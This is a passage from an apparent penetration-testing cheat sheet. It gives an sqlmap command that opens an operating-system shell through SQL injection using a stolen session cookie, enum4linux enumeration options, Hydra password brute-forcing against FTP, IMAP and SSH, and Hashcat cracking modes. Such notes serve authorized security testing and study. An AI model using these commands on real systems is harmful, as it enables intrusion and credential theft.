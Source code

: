 ```sh

#To spawn an interractive shell:
sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" --os-shell
```





--------------

## Enumeration/PrivEsc

------------


#### Enum4Linux

```sh

Usage: enum4linux [options] $IP

Options can be:
    -U        get userlist
    -M        get machine list*
    -S        get sharelist
    -P        get password policy information
    -G        get group and member list
    -d        be detailed, applies to -U and -S
```



#### PowerUp


--------------
## Cracking
----

#### Hydra

```bash
  hydra -l user -P passlist.txt ftp://$IP
  hydra -L userlist.txt -p defaultpw imap://$IP/PLAIN
  hydra -l admin -p password ftp://$IP
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

#### Hashcat
```sh
  Attack-Mode   Hash-Type   Command
 ==============+==========+================================================================== 

  Wordlist      | $P$   | hashcat -a 0 -m 400 example400.hash wordlist.txt 

  Brute-Force   | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a 

  Combinator    | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict 

 

```
